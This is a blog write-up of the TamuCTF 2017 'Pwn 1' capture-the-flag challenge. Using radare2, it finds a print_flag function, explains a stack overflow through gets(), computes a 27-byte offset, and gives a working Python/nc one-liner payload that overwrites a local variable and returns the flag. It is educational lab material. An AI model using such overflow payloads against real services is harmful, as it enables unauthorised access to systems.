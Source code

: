 ```yaml
---
author:
  email: tzaoh1@gmail.com
  github: https://github.com/tzaoh
  image:
  - /images/avatar-64x64.png
  name:
  - Tzaoh
cardbackground: '#838238'
categories:
- post
date: 2017-05-27T18:56:18+02:00
description: a
tags:
- test
title: "TamuCTF 2017 - Pwn 1"
---
```


# [TamuCTF 2017](https://ctf.tamu.edu/)
### Pwn1 - 50 Points

![Pwn1 Challenge Description](/images/TamuCTF2017/pwn1/1-pwn1_description.png)

We are told that there is a binary running remotely and its code is available to download. Lets download and open it with r2.

```bash
$ wget https://ctf.tamu.edu/files/7e968d03d9caa11a2f4f2909bd3cabc9/pwn1
$ r2 pwn1
```

Now that the binary is opened, we need to analyze its content.

```bash
[0xf7721ac0]> aaa		# Analyze
[0xf7721ac0]> afl		# List functions found
.
.
0x0804854b    4 103          sym.print_flag
0x080485b2    4 120          main
.
.
```

Interesting, there is **print_flag** function at `0x0804854b`. Lets see what's inside.

```bash
[0xf771eac0]> s sym.print_flag	# We move to beginning of print_flag function
[0x0804854b]> pdf				# print its code
```
![Pwn1 Open File Function](/images/TamuCTF2017/pwn1/2-pwn1_open_flag.png)


Because of the offsets `0x08048569` and `0x0804856e` we can deduce that the function opens a file called **flag.txt** and prints its content. Fantastic :v:, so we just need to know who will call **print_flag**. This can be figured out through the `axt` command of r2 which stands for "cross reference to" the actual function.

```bash
[0x0804854b]> axt
call 0x8048606 call sym.print_flag in main
```

Cool, so this function will be called from offset `0x8048606` **main**. Lets see whats inside it.

```bash
[0x0804854b]> s main
[0x080485b2]> pdf
```
![Pwn1 Condition](/images/TamuCTF2017/pwn1/3-pwn1_condition.png)

We see that **print_flag** will be called if the condition `local_ch == 0xca11ab1e` is not satisfied. But wait a moment, if we give a closer look to the assembly instrucctions we realized that the only variable we are supposed to edit is **local_27h** through the `gets` function:

![Pwn1 Gets Call](/images/TamuCTF2017/pwn1/4-pwn1_gets_call.png)

So what we need to do? As maybe you know, **gets** is an unsecure function, because it does not check how many characters it must copy in memory when you introduce them. Then if we input more characters than it is supposed store, we will be able to overwrite neighbor local variables!

How can we know the length of the string we must provide? By knowing where the variables are stored onto the stack

![Pwn1 Stack diagram](/images/TamuCTF2017/pwn1/5-pwn1_stack_view.png)

So finally, how many bytes do we need to start writting **local_ch**?
Easy!

`($ebp - 0xC) - ($ebp - 0x27)  = 0x27 - 0xC = 0x1B = 27d` 27 Characters.

```bash
$ python -c 'print("A"*27 + "\x1E\xAB\x11\xCA")' | nc pwn.ctf.tamu.edu 4322
Enter the secret word:
How did you figure out my secret?!
gigem{T00_435Y}
```

Answer: gigem{T00_435Y}

### Complete video

<a href="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc?autoplay=1"><img src="https://asciinema.org/a/2juhmtxkdf7qrnzbury7rzzjc.png" width="400"/></a>

### Tools used:

 * [radare2](https://github.com/radare/radare2) - To analyze the binary.
 * [draw.io](https://www.draw.io/) - To draw some graphics.
 * [asciinema](https://asciinema.org) - To record the session.
